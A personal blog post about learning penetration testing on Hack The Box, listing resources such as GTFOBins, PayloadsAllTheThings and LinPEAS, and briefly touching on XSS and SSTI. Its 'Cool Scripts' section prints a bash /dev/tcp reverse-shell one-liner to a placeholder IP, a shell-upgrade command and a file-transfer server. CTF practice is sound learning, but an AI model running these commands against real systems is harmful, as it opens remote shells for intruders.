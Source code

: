 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now.
I wanted to share my thoughts and cool things I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.

![encryption](/assets/img/hackthebox-owns.jpg){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun doing them.

Let’s dive in!
### Very Useful Githubs

#### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. It has a long list of binaries made for exploiting common Unix tools to break out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have a good idea of how to follow them now.

#### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a set of payloads for lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without Metasploit taught me about how these things work. I do recommend trying this webpage before Metasploit if you are sure where exactly the vulnerability is.

#### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information compared to all the other enumeration tool. It also has everything color coded based on how critical they are. I LOVE THIS THING.


### Cool Scripts

#### Spawn a Bash Shell from a Python Environment
stuck in a restricted shell with access to Python?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

#### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

#### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

### Useful Websites

#### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt them. I know you can always look at hashcat and john examples to try and find out what kind of hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

#### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the company to receive their bounty, they usually have very thorough and in depth guide on how to recreate or exploit the bug they have found.

#### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have no idea what your foothold is. Try reading the application manual. It always lists a set of dependencies, privileges, default ports, etc. that can be later researched to find vulnerabilities in.

### Common Web Application Vulnerabilities

#### XSS

XSS is often ignored if the website isn’t and multiuser environment like social media. Since it's mostly used to steal data from other users, but you can still use XSS to grab admin passwords of a websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

#### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as its shown below. It so quick to do its almost always worth a try.

![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

### Linux Tools I Did'nt Know Exist But I Ended Up Using A lot

#### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

#### netpgp
Got a encrypted file?


### Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-error}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
